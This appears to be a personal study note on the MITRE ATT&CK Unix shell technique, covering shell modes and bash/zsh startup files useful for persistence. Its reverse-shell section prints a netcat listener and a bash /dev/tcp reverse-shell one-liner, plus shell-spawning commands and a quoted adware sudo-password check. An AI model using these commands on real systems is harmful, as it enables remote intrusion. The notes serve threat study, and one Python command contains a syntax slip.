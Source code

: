 ```yaml
---
title: "Command and Scripting Interpreter: Unix Shell (T1059.004)"
date: 2022-06-23T20:17:09-04:00
draft: false
---
```

# Command and Scripting Interpreter: Unix Shell

[T1059.004](https://www.notion.so/T1564-004-7d6a2ff19f994283b4238ecb5eb99bcd)

*Adversaries may abuse Unix shells to execute various commands or payloads. Interactive shells may be accessed through command and control channels or during lateral movement such as with [SSH](https://attack.mitre.org/techniques/T1021/004). Adversaries may also leverage shell scripts to deliver and execute multiple commands on victims or as part of payloads used for persistence.*

# Invocation

### Interactive Shell

An ***interactive*** shell is one started without non-option arguments and without the **-c** option whose standard input and error are both connected to terminals (as determined by **[isatty](https://linux.die.net/man/3/isatty))**, or one started with the **`-i`** option. **PS1** is set and **$-** includes **`i`** if **bash** is interactive, allowing a shell script or a startup file to test this state. An interactive shell will execute both `/etc/profile` and `/etc/bash.bashrc`.

To spawn an interactive shell:

`python -c 'import pty: pty.spawn("/bin/sh")'`

`echo os.system('/bin/bash')`

`/bin/sh -i`

An *interactive **login** shell *****is when bash is spawned by login in a TTY, SSH daemon, or similar means like using `-l` or `--login`. 

An *interactive **non-login** shell* does not source `~/.bash_profile`. For example, if you login to bash using PuTTY, you enter an *interactive **login shell*.** Then, if you type `bash` after, you switch to an *interactive **non-login*** shell. 

### Non-Interactive Shell

A *non-interactive* shell is used when a user cannot interact with the shell like executing a bash script. Within a non-interactive shell, only `/etc/bash.bashrc` is executed.

### Options

| Flag | Description |
| --- | ------ |
| -c | Commands are read from string and if arguments are after the string, they are assigned positional parameters, starting with $0.  |
| -i | The shell becomes interactive. |
| -l | Invokes bash as a login shell. |

### Reverse Shell

A reverse shell is a shell session established on a connection initiated from a remote machine. RCE vulnerabilities can be exploited to use a reverse shell to obtain an interactive shell session on the target machine. If a host is directly accessible, an attacker can create a bind shell between an attacker controlled machine and a remote network host. If the remote host isn’t directly accessible due to a firewall or NAT, a reverse shell would be used. The target initiates an outgoing connection to a listening network host to establish a shell session.

An attacker could create a netcat listener on a specified port.

- `ncat -l -p 1111`

With remote code execution ability on the victim machine, the attacker would execute a shell command to connect back to the listener.

- `/bin/bash -i >& /dev/tcp/<ip>/port 0>&1`

List of reverse shells: [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

# Zsh

Zsh is derived from the Bourne family of shells. It can be used as an interactive login shell and interpreter for shell scripting, but serves as an extension to the standard Bourne shell (bash) with improvements and additional features. Oh-My-Zsh is a popular Zsh framework for managing configurations. Zsh ignores the bash configuration files (`.bash_profile` or `.bashrc`). 

For persistence, Zsh is important as it is has been the default shell on macOS since 10.15 Catalina. 

For compatibility, existing `bash` scripts can be moved to `zsh` by setting the shebang in the script to `#!/bin/zsh`. Additional features with `zsh` include arrays and associative arrays which are like dictionaries. 

# Configuration Files

### Bash

**/etc/profile**

Sets system wide environment variables on user shells from `/etc/profile.d/*.sh` and `/etc/bash.bashrc`. Executed only for **interactive** **login** shells or **non-interactive** shells with the `--login` option. This is the system wide version of `.bash_profile`. Both `.profile` and `.bash_profile` set environment variables such as `umask` or `PATH` for users. 

**~/.bash_profile**

Used in **interactive login** shells and operates on a per-user basis after `/etc/profile`. If `/etc/profile` isn’t found, `~/.bash_login` and `~/.profile` are checked in order. 

**/etc/profile.d**

`/etc/profile` will execute scripts within `/etc/profile.d/*.sh`. Configurations within a shell script to set system wide environment variables should be placed within `/etc/profile.d`. 

**/etc/bashrc**

This file sets command aliases and functions used by individual bash shell users. `/etc/bashrc` and `/etc/bash.bashrc` is the system wide version of `.bashrc`. This file is executed for both **interactive** and **non-interactive** shells, not **login** shells. In Ubuntu, `/etc/profile` calls `/etc/bashrc` directly.

**~/.bash_logout**

Used in **interactive login** shells after exit of a login shell. 

### Zsh

Global config files are located within the `/etc/` folder and user-specific files are within `~/.z*`. 

Zsh will always start with `/etc/zshenv`, then the user specific `.zshenv`. 

**Conditions:**

For login shells, zsh will then run `/etc/zprofile` and `.zprofile`. 

For interactive **and** login shells, `/etc/zshrc` and `.zshrc`. All configurations should be placed here, or `.zlogin` for user-specific **login** shells. 

For just login shells, `/etc/zlogin` and `.zlogin`. 

When a login shell exits, `.zlogout` is read first, then `/etc/zlogin`. 

| Path | File | Description |
| --- | --- | ------ |
| /etc/zshenv | .zshenv | Supports login shell, interactive shell, scripts, and Terminal.app |
| /etc/zprofile | .zprofile | Supports login shell and Terminal.app |
| /etc/zshrc | .zshrc | Supports login shell, interactive shell, and Terminal.app |
| /etc/zlogin | .zlogin | Supports login shell and Terminal.app |
| /etc/zlogout | .zlogout | Supports login shell and Terminal.app |

# Examples

[MacOS Bundlore](https://mackeeper.com/blog/macos-bundlore-adware-analysis/) (Adware) verifies if a password is valid

- `bin/sh -c echo $'password' | sudo -S echo __tbt_true 2>&1`

[Anchor](https://medium.com/stage-2-security/anchor-dns-malware-family-goes-cross-platform-d807ba13ca30) drops payloads to `/tmp/<random_15_chars>`and executes via `sh`. 

[Chaos](https://www.gosecure.net/blog/2018/02/14/chaos-a-stolen-backdoor-rising/) provides a reverse shell connection on 8338/TCP, encrypted via AES. 

# References

- [https://bencane.com/2013/09/16/understanding-a-little-more-about-etcprofile-and-etcbashrc/](https://bencane.com/2013/09/16/understanding-a-little-more-about-etcprofile-and-etcbashrc/)
- [https://wiki.archlinux.org/title/Bash#Invocation](https://wiki.archlinux.org/title/Bash#Invocation)
- [https://linux.die.net/man/1/bash](https://linux.die.net/man/1/bash)
- [https://tldp.org/LDP/abs/html/intandnonint.html](https://tldp.org/LDP/abs/html/intandnonint.html)
- [https://mackeeper.com/blog/macos-bundlore-adware-analysis/](https://mackeeper.com/blog/macos-bundlore-adware-analysis/)
- [https://medium.com/stage-2-security/anchor-dns-malware-family-goes-cross-platform-d807ba13ca30](https://medium.com/stage-2-security/anchor-dns-malware-family-goes-cross-platform-d807ba13ca30)
- [https://www.netsparker.com/blog/web-security/understanding-reverse-shells/](https://www.netsparker.com/blog/web-security/understanding-reverse-shells/)
- [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [https://scriptingosx.com/2019/06/moving-to-zsh-part-2-configuration-files/](https://scriptingosx.com/2019/06/moving-to-zsh-part-2-configuration-files/)
